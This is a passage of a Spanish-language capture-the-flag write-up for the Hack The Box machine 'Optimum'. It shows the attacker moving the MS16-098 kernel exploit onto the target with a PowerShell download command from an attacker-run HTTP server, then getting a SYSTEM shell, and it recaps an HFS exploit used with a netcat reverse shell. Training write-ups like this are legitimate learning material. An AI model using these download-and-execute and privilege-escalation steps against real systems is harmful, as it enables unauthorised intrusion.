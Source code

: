 ```console
[*]
```

De las vulnerabilidades que más nos llama la atención es la `MS16-098` donde los controladores en modo Kernel en Microsoft Windows Server 2012 R2, permite a los usuarios locales obtener privilegios. Para más información leer este [boletín](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-098#vulnerability-information) oficial de Microsoft.

En `Exploit-db` encontramos el siguiente [exploit](https://www.exploit-db.com/exploits/41020), así que vamos a descargar este archivo y al igual que hicimos con el exploit de `HFS` vamos a crear un servidor web con Python y transferirlo a la máquina de la víctima, en este caso, usando `Powershell`.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #ls
all-ports  exploit.py  nc.exe  systeminfo.txt  targeted  41020.exe

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:80/) ...
```

```bash
C:\Users\kostas\Desktop>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/41020.exe', 'c:\Users\kostas\Desktop\41020.exe')"
```

Finalmente, ejecutamos el exploit y ya seremos administradores, así que vamos a buscar la flag de root.

```bash
C:\Users\kostas\Desktop> 41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.                                                    
C:\Users\kostas\Desktop>whoami
whoami
nt authority\system                                                                                          
C:\Users\kostas\Desktop>type C:\Users\Administrator\Desktop\root.txt
type root.txt                                  
5949b3.............................
```



## Resumen

Para obtener la bandera del usuario realizamos los siguientes pasos:

- Con el escaneo de puertos, encontramos que se está ejecutando HTTP File Server 2.3.
- Procedemos a buscar vulnerabilidades en esta versión específica del servidor web.
- Descargamos el script en Python que se encuentra en Exploit-db.
- Cambiamos las variables `ip_addr` y `local_port` de acuerdo a la IP de nuestra máquina y el puerto que establezcamos en netcat.
- Iniciamos un servidor http usando Python.
- Creamos un listener con netcat en el puerto que hayamos establecido en el código del exploit.
- Ejecutamos el exploit 2 veces y ya tenemos shell.
